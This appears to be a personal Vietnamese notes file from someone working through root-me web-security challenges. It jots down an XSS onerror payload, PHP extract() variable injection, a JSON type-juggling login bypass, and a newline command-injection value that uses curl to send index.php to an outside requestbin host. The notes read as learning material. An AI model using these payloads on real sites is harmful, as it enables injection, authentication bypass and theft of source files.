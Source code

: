 
##kết thúc dự án , một phần vì lười , một phần sợ root-me ban =))

###;https://www.httpwatch.com/httpgallery/introduction/  http header
https://curl.haxx.se/docs/httpscripting.html#GET
`--><!-- ---> <img src=xxx:x onerror=javascript:alert(1)> -->`


hàm extract :  truyền biến trực tiếp thông qua url : ví dụ
```
url="http://xxx.com/?get=nnanaa

<?php
$get="notme"

echo $get ; // lúc trưa truyền thì in ra notme , khi get=jjjj in ra jjj
```

 meta http-equiv="refresh" content="1; url=https://www.w3schools.com/tags/att_meta_http_equiv.asp">\
 
 auth={"data":{"login":"a","password":"ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb"}}
 có thể ép kiểu true= {"login":true}
 
 
 ---
 ip=localhost%0Acurl -X POST -F file=@index.php https://requestbin.fullcontact.com/  blind commandline , in ra 1 file


